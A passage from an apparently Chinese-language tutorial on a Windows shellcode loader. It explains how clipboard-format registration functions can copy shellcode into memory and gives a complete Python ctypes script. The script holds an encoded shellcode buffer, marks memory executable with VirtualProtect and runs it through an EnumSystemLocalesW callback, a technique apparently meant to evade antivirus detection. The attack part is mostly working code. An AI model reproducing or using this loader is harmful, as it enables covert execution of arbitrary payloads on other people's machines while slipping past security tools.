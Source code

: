 ​	该函数需要传入三个参数，第一个参数用于指明要检索的格式类型，此参数不得指定任何预定义剪贴板格式；第二个参数用于指明要接收格式名称的缓冲区；第三个参数用于指明要复制到缓冲区的字符串的最大长度，需要注意，如果名称超出此限制，则会将其截断。

​	利用思路也很清晰了：利用`RegisterClipboardFormatA`函数将`shellcode`当作注册格式的名称，注册一个新的剪切板，然后利用`GetClipboardFormatNameA`函数获取剪切板格式的名称，即`shellcode`，并写入申请的内存当中去，这里需要注意`shellcode`中不能出现`\x00`字符，避免注册格式的名称被截断。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
GetClipboardFormatName+RegisterClipboardFormat
"""
import ctypes

buf = b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x96\x4d\x71\x7e\xfb"
buf += b"\x4f\x9f\x93\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x6a\x05\xf2\x9a\x0b\xa7\x5f\x93\x96"
buf += b"\x4d\x30\x2f\xba\x1f\xcd\xc2\xc0\x05\x40\xac\x9e"
buf += b"\x07\x14\xc1\xf6\x05\xfa\x2c\xe3\x07\x14\xc1\xb6"
buf += b"\x05\xfa\x0c\xab\x07\x90\x24\xdc\x07\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x71\x10\x02\xf9\x63\xbf\xd2\x57"
buf += b"\x84\x7c\x3f\xfa\x8e\x7d\x7e\xc4\x0c\x20\x36\x70"
buf += b"\x1d\xbf\x18\xd4\x71\x39\x7f\x2b\xc4\x1f\x1b\x96"
buf += b"\x4d\x71\x36\x7e\x8f\xeb\xf4\xde\x4c\xa1\x2e\x70"
buf += b"\x07\x87\xd7\x1d\x0d\x51\x37\xfa\x9f\x7c\xc5\xde"
buf += b"\xb2\xb8\x3f\x70\x7b\x17\xdb\x97\x9b\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x0c\xb0\xb7\xf6\x0e\x9e\x52\xae"
buf += b"\xad\x04\x8f\xb7\x4c\xd3\xb7\x9e\x08\x48\xaf\x8e"
buf += b"\x97\xc7\xd7\x1d\x0d\x55\x37\xfa\x9f\xf9\xd2\x1d"
buf += b"\x41\x39\x3a\x70\x0f\x83\xda\x97\x9d\x30\xf5\xff"
buf += b"\xc7\xd7\x92\x46\x0c\x29\x3f\xa3\x11\xc6\xc9\xd7"
buf += b"\x15\x30\x27\xba\x15\xd7\x10\x7a\x6d\x30\x2c\x04"
buf += b"\xaf\xc7\xd2\xcf\x17\x39\xf5\xe9\xa6\xc8\x6c\x69"
buf += b"\xb2\x2c\x36\x41\x4e\x9f\x93\x96\x4d\x71\x7e\xfb"
buf += b"\x07\x12\x1e\x97\x4c\x71\x7e\xba\xf5\xae\x18\xf9"
buf += b"\xca\x8e\xab\x40\xaf\x82\xb9\x9c\x0c\xcb\xd8\x6e"
buf += b"\xf2\x02\x6c\x43\x05\xf2\xba\xd3\x73\x99\xef\x9c"
buf += b"\xcd\x8a\x9e\x8e\x4a\x24\xd4\x85\x3f\x1e\x14\xfb"
buf += b"\x16\xde\x1a\x4c\xb2\xa4\x1d\x9a\x23\xfc\xbd\xf3"
buf += b"\x35\x14\x7e\xfb\x4f\x9f\x93"

# 申请内存
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(buf)))
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(buf)), 0x40, ctypes.byref(ctypes.c_long(1)))
# 注册新的剪贴板格式
clipboard_name = ctypes.windll.user32.RegisterClipboardFormatW(buf)
# 从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区
ctypes.windll.user32.GetClipboardFormatNameW(clipboard_name, ptr, len(buf))
# 回调函数调用shellcode
ctypes.windll.kernel32.EnumSystemLocalesW(ptr, 0)
```
